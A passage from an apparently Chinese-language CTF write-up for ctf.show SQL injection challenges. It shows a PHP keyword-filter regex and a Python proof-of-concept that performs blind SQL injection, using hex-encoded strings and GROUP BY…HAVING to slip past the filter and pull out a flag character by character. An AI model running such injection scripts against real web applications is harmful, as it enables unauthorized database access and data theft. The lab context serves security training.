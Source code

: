 ```python
        data = {
            'tableName' : payload.format(str(i), j)
        }
        r = requests.post(url=url, data=data)
        if "$user_count = 1;" in r.text:
            ans += j
            print(ans)
            break
```
## web184（盲注，having）
```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```
多过滤了where，单双引号，所以字符串不能用了，考虑使用十六进制替换字符串，having替换where
poc：
```python
'''
Author: KonDream
Date: 2021-12-08 16:08:27
LastEditors:  KonDream
LastEditTime: 2021-12-08 16:31:14
Description:  sql184 having+hex
'''
import requests
import string
import binascii

def str2hex(str):
    ans = ''
    for i in str:
        ans += (hex(ord(i)))[2:]
    return ans


url = "http://6fab4f3b-8b4d-44bb-9cf7-bb3093b3c602.challenge.ctf.show/select-waf.php"

payload = "ctfshow_user group by pass having pass like {}"

string = string.digits + string.ascii_lowercase + '{-}'

flag = 'ctfshow'

for i in range(8, 46):
    for j in string:
        data = {
            'tableName' : payload.format('0x' + str2hex(flag + j + '%'))
        }
        r = requests.post(url=url, data=data)
        if "$user_count = 1;" in r.text:
            flag += j
            print('[*] {}'.format(flag))
            break
```
## web185（盲注，突破数字）
